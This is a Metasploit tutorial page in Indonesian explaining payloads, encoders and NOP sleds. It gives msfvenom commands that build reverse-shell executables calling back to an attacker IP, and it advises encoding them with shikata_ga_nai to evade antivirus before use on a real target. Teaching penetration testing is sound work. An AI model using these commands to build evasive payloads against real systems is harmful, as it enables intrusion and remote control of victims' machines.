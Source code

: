 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Menjalankan%20Eksploitasi%20dengan%20Metasploit%20Framework.md">Menjalankan Eksploitasi dengan Metasploit Framework</a>
</p>

# Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:
- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

Contoh payload populer:

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters).

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus.
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`).

Contoh encoder:

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| `x86` | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | `Windows` | Menyandikan payload sebagai perintah echo |
| `generic/none` | `All` | Tidak menggunakan encoding |

Contoh penggunaan encoder:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.8`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder: `x86/shikata_ga_nai`
- `-i`: Iterasi encoder: `3`
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe`

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:
- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

Keterangan:
- `-n 16`: Menambahkan 16 byte NOP sled

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:
- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan
- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Membuat%20Payload%20dengan%20MSFvenom.md">Membuat Payload dengan MSFvenom</a>
</p>
